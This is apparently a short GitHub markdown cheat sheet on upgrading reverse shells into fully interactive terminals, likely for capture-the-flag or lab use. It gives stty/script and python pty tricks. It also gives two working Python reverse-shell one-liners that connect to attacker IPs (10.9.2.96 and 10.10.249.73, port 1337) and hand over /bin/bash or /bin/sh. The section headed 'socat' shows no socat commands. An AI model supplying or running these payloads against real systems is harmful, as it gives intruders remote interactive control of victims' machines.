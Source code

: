 # How to upgrade reverse shell :
## Method 1 : upgrade netcat
```bash
SHELL=/bin/bash script -q /dev/null
```
<kbd>Ctrl</kbd>+<kbd>Z</kbd>
```bash
stty raw -echo
fg
reset
Terminal type? xterm
```
Using netcat listener and you want shell with terminal command like <kbd>&#8593;</kbd> key to go back to history command, <kbd>Ctrl</kbd>+<kbd>c</kbd>  to stop a command instead of netcat listener, etc.
## Method 2 : spawn a TTY
```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```
<kbd>Ctrl</kbd>+<kbd>Z</kbd>
```bash
stty raw -echo
fg
export TERM=xterm
```
To fool commands like `su username`when you need a proper terminal to execute them. 
## Method 3 : socat
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

```shell
python3 -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.2.96",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```
```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.249.73",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbMjA4MzM0OTk2OCwtMTA0NTA0MDE3MiwxNj
QwNjQ1OTMwLC0xMTcwNDY5ODUyLDIzNTI0NTIzMiwxNDYxNzQ0
MDYsMTkzODIxMTg0NiwtMTQyNTE0MDk3LDE5MTM1OTIxOTFdfQ
==
-->